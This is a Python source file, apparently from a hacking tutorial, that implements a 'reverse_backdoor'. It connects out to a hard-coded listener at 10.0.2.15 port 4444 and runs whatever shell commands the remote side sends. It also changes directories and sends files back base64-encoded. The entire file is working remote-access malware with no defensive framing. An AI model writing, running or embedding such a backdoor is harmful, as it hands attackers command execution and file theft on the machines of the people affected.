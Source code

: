 # reverse_backdoor
import socket, subprocess, json, os,base64

class Backdoor:
    def __init__(self, ip, port):
        self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.connection.connect((ip, port))

    def reliabe_send(self, data):
        json_data = json.dumps(data)
        self.connection.send(json_data)

    def reliable_receive(self):
        json_data = ""
        while True:
            try:
                json_data = json_data + self.connection.recv(1024)
                return json.loads(json_data)

            except ValueError:
                continue

    def execute_system_commad(self, command):
    	return subprocess.check_output(command, shell=True)

    def change_working_directory_to(self, path):
        os.chdir(path)
        return  "[+] changing working directory to " + path

    def read_file(self, path):
        with open(path, "rb") as file:
            return base64.b64encode(file.read())

    def run(self):
        while True:
            command = self.reliable_receive()
            if command[0] == "exit":
                self.connection.close()
                exit()
            elif command[0] == "cd" and len(command) > 1:
                command_result = self.change_working_directory_to(command[1])
            elif command[0] == "download":
                command_result = self.read_file(command[1])
            else:
                command_result = self.execute_system_commad(command)
            self.reliabe_send(command_result)


my_backdoor = Backdoor("10.0.2.15", 4444)
my_backdoor.run()
